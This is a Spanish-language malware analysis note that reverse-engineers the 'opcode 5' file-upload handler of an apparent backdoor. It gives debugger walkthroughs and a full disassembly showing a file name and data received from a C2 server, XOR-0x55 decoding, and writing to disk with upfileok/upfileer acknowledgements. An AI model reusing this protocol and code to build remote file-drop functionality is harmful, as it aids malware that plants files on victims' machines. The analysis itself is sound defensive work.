




# FUN_004020F0 - Opcode 5

La función FUN_004020f0 se encarga de recibir datos por red y guardarlos como archivo, con lógica adicional para indicar si el proceso falló o tuvo éxito mediante mensajes como "upfileer" y "upfileok". 

El nombre del archivo se recibe como argumento (param_1) y es un string XOR 0x55. La función:
- Descifra ese string en su lugar.
- Lo pasa a CreateFileA como argumento (ESI) para abrirlo en modo escritura (GENERIC_WRITE = 0x40000000).
- Si falla, reporta con "upfileer"; si funciona y escribe bien, reporta con "upfileok".

_____________________________________

## 0040210E - Primer ws2_32.recv (cabecera 0x204)

- Estamos en 0040210E, justo en el call dword ptr ds:[Ordinal#16], que corresponde al primer recv de Winsock.
- La firma de recv es:
    ```
    int recv(SOCKET s, char *buf, int len, int flags);
    ```
- Al entrar (pila del caller):
    ```
    1: [esp]     = 000002C0           ; return address
    2: [esp+4]   = 0019F39C           ; SOCKET s  ✅
    3: [esp+8]   = 00000204           ; len = 0x204 (516) ✅
    4: [esp+0xC] = 00000000           ; flags = 0 ✅
    5: [esp+0x10]= 0019FF0C           ; buf = 0x0019FF0C ✅
    ```
- Al volver (ejecuta 1 instrucción y paramos en 00402114):
    - EAX = bytes recibidos;
    - **Dump [esp+0x10] por EAX bytes → cabecera cruda (XOR sin aplicar) --> fxftest......** Es el fxftest que envía el host C2 como repuesta al cliente en su comunicación de bievenida.


## 00402127 - Bucle XOR 0x55

- Esta captura es antes de la llamada al bucle XOR que desofusca la cabecera inicial  → EIP = 00402127.
- Este bucle recorre [ESP+0x14]..[ESP+0x14+0x1FF] (512 B).
- En [ESP+0x14] está lo que se ha recibido del host C2. Podemos hacer un dump para ver su contenido. (Ver Captura)
- Cuando EAX llegue a 0x200, sale del bucle y continúa en 00402129.
- Dónde romper para ver todo ya “limpio”: Ponemos un BP en 00402129 (justo al salir del bucle XOR). Ahí el buffer ya está desen-XOR-eado.

## 00402129 - Cabecera ya decodificada (tras bucle XOR 0x55)

- BP: 00402129 (sale del bucle JL 402116)
- **Cabecera decodificada: Follow in Dump [ESP+0x14] (exactamente 0x200 bytes).**
- Ruta (ASCIIZ): Follow in Dump [ESP+0x28].
- Tamaño total esperado: [ESP+0x214] (DWORD LE).


## 004021BB - call WriteFile


El buffer que WriteFile va a escribir proviene de la zona de pila que la función prepara y pasa al recv con:
```
lea edx, [esp+0x21C]
push 0x400
push edx       ; ← este puntero termina siendo el 0x0019F5A0
...
call recv
```
Luego llama a `WriteFile(hFile=EBP, lpBuffer=[esp+8]=0x0019F5A0, nBytes=[esp+0xC]=EAX, ...)` para volcar esos datos al archivo.


El buffer que WriteFile va a escribir es el argumento lpBuffer, que en la llamada está en [esp+8].
```
[esp+8] = 0x0019F5A0 → Follow in Dump y vemos el contenido:
"UUUUUUUUUUUU{UUUHello from C2!\r\nThis file came via opcode 5.\r\n"
(Las U = 0x55 vienen del relleno previo en el stack).
```


`[esp+0xC] = 0x3E (62)` → es nNumberOfBytesToWrite, coincide con EAX (bytes recibidos por el recv anterior).

`[esp+4] es el hFile` (el handle que se guardó en EBP y se hace push ebp antes del call).


## 004021DA - Éxito final (ACK “upfileok”)
En 004021DA (send) → verás el "upfileok":  
[esp+8] → "upfileok", *[esp+0xC] → 9.

Dado el listener, nunca llega a finalizar esta parte. 

____________________________________

## [ >> Ir al Opcode 6](FUN_00402210-opcode6.md)

____________________________________
# FUN_004020f0 Decompilada
```
                             **************************************************************
                             *                          FUNCTION                          *
                             **************************************************************
                             undefined __cdecl FUN_004020f0(undefined4 param_1)
                               assume FS_OFFSET = 0xffdff000
             undefined         <UNASSIGNED>   <RETURN>
             undefined4        Stack[0x4]:4   param_1                                 XREF[1]:     004020fd(R)  
             undefined1        Stack[-0x604   local_604                               XREF[1]:     004020f6(*)  
                             FUN_004020f0                                    XREF[1]:     FUN_004012f0:0040176e(c)  
        004020f0 81 ec 08        SUB        ESP,0x608
                 06 00 00
        004020f6 8d 44 24 04     LEA        EAX=>local_604,[ESP + 0x4]
        004020fa 53              PUSH       EBX
        004020fb 55              PUSH       EBP
        004020fc 56              PUSH       ESI
        004020fd 8b b4 24        MOV        ESI,dword ptr [ESP + param_1]
                 18 06 00 00
        00402104 57              PUSH       EDI
        00402105 6a 00           PUSH       0x0
        00402107 68 04 02        PUSH       0x204
                 00 00
        0040210c 50              PUSH       EAX
        0040210d 56              PUSH       ESI
        0040210e ff 15 40        CALL       dword ptr [->WS2_32.DLL::Ordinal_16]             = 80000010
                 91 40 00
        00402114 33 c0           XOR        EAX,EAX
                             LAB_00402116                                    XREF[1]:     00402127(j)  
        00402116 8a 5c 04 14     MOV        BL,byte ptr [ESP + EAX*0x1 + 0x14]
        0040211a 80 f3 55        XOR        BL,0x55
        0040211d 88 5c 04 14     MOV        byte ptr [ESP + EAX*0x1 + 0x14],BL
        00402121 40              INC        EAX
        00402122 3d 00 02        CMP        EAX,0x200
                 00 00
        00402127 7c ed           JL         LAB_00402116
        00402129 6a 00           PUSH       0x0
        0040212b 68 80 00        PUSH       0x80
                 00 00
        00402130 6a 02           PUSH       0x2
        00402132 6a 00           PUSH       0x0
        00402134 6a 02           PUSH       0x2
        00402136 8d 4c 24 28     LEA        ECX,[ESP + 0x28]
        0040213a 68 00 00        PUSH       0x40000000
                 00 40
        0040213f 51              PUSH       ECX
        00402140 ff 15 40        CALL       dword ptr [->KERNEL32.DLL::CreateFileA]          = 0000993c
                 90 40 00
        00402146 8b e8           MOV        EBP,EAX
        00402148 85 ed           TEST       EBP,EBP
        0040214a 77 1b           JA         LAB_00402167
        0040214c 6a 00           PUSH       0x0
        0040214e 6a 09           PUSH       0x9
        00402150 68 a4 a1        PUSH       s_upfileer_0040a1a4                              = "upfileer"
                 40 00
        00402155 56              PUSH       ESI
        00402156 ff 15 68        CALL       dword ptr [->WS2_32.DLL::Ordinal_19]             = 80000013
                 91 40 00
        0040215c 5f              POP        EDI
        0040215d 5e              POP        ESI
        0040215e 5d              POP        EBP
        0040215f 5b              POP        EBX
        00402160 81 c4 08        ADD        ESP,0x608
                 06 00 00
        00402166 c3              RET
                             LAB_00402167                                    XREF[1]:     0040214a(j)  
        00402167 8b 9c 24        MOV        EBX,dword ptr [ESP + 0x214]
                 14 02 00 00
        0040216e 85 db           TEST       EBX,EBX
        00402170 76 57           JBE        LAB_004021c9
                             LAB_00402172                                    XREF[1]:     004021c7(j)  
        00402172 b9 ff 00        MOV        ECX,0xff
                 00 00
        00402177 33 c0           XOR        EAX,EAX
        00402179 8d bc 24        LEA        EDI,[ESP + 0x219]
                 19 02 00 00
        00402180 c6 84 24        MOV        byte ptr [ESP + 0x218],0x0
                 18 02 00 
                 00 00
        00402188 f3 ab           STOSD.REP  ES:EDI
        0040218a 66 ab           STOSW      ES:EDI
        0040218c 6a 00           PUSH       0x0
        0040218e 8d 94 24        LEA        EDX,[ESP + 0x21c]
                 1c 02 00 00
        00402195 68 00 04        PUSH       0x400
                 00 00
        0040219a 52              PUSH       EDX
        0040219b 56              PUSH       ESI
        0040219c aa              STOSB      ES:EDI
        0040219d ff 15 40        CALL       dword ptr [->WS2_32.DLL::Ordinal_16]             = 80000010
                 91 40 00
        004021a3 83 f8 ff        CMP        EAX,-0x1
        004021a6 74 43           JZ         LAB_004021eb
        004021a8 8d 4c 24 10     LEA        ECX,[ESP + 0x10]
        004021ac 6a 00           PUSH       0x0
        004021ae 51              PUSH       ECX
        004021af 8d 94 24        LEA        EDX,[ESP + 0x220]
                 20 02 00 00
        004021b6 50              PUSH       EAX
        004021b7 52              PUSH       EDX
        004021b8 55              PUSH       EBP
        004021b9 2b d8           SUB        EBX,EAX
        004021bb ff 15 3c        CALL       dword ptr [->KERNEL32.DLL::WriteFile]            = 00009930
                 90 40 00
        004021c1 85 c0           TEST       EAX,EAX
        004021c3 74 2d           JZ         LAB_004021f2
        004021c5 85 db           TEST       EBX,EBX
        004021c7 77 a9           JA         LAB_00402172
                             LAB_004021c9                                    XREF[1]:     00402170(j)  
        004021c9 55              PUSH       EBP
        004021ca ff 15 38        CALL       dword ptr [->KERNEL32.DLL::CloseHandle]          = 00009922
                 90 40 00
        004021d0 6a 00           PUSH       0x0
        004021d2 6a 09           PUSH       0x9
        004021d4 68 98 a1        PUSH       s_upfileok_0040a198                              = "upfileok"
                 40 00
        004021d9 56              PUSH       ESI
        004021da ff 15 68        CALL       dword ptr [->WS2_32.DLL::Ordinal_19]             = 80000013
                 91 40 00
        004021e0 5f              POP        EDI
        004021e1 5e              POP        ESI
        004021e2 5d              POP        EBP
        004021e3 5b              POP        EBX
        004021e4 81 c4 08        ADD        ESP,0x608
                 06 00 00
        004021ea c3              RET
```


